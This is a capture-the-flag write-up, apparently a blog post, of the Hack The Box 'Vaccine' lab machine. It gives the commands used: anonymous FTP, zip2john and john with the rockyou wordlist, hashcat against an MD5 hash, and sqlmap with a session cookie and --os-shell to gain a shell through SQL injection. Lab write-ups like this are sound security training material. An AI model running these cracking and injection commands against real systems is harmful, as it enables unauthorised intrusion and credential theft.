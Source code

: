 ```yaml
---
layout: post
title: 00 - Vaccine
date: 2022-08-20
categories: [Writeups,HTB,Very_Easy,Vaccine]
tags: [ftp,SQL,SUID]
---
```


# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Linux | 11/06/2022 | 12/06/2022 |

# Process
1. Login as `anonymous` on ftp service >  `get` the .zip and `unzip`.
2. Use John The Reapper to unzip the file.

# John The Reapper
There is a script call it `zip2john` that creates a hash out of a zip file. After, with this hash, we run a wordlist to brute force the password.

> Get the hash
```bash
$ zip2john backup.zip > hash.txt
```

> Brute Force the hash
```bash
$ john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> Show the password
```bash
$ john --show hash.txt
```

```ad-caution
Must `gunzip rockyou.txt.gz`
```

# MD5 Password
Inside index.php there was admin's password encrypted using MD5. 
To crack MD5 password execute this command:
```bash
$ sudo hashcat -m 0 pass.md5 /usr/share/wordlists/rockyou.txt
```


# SQL Injection
In the website there is a search bar that we can explote with SQL injection.
We can use sqlmap but before executing any command, we will need to grab the cookie to authenticat admin user. 
[//]: Install cooki-editor extension

```bash
$ sqlmap -u http://10.129.95.174/dashboard.php?search=hello --cookie="PHPSESSID=rp7ki2fucgrc0brl7f1l9j5p9e" --os-shell
```

User flag is in `/var/lib/postgresql/`

```ad-note
I found users flag but I lost in the proccess of creating a interactive shell.
I only need root flag.
```
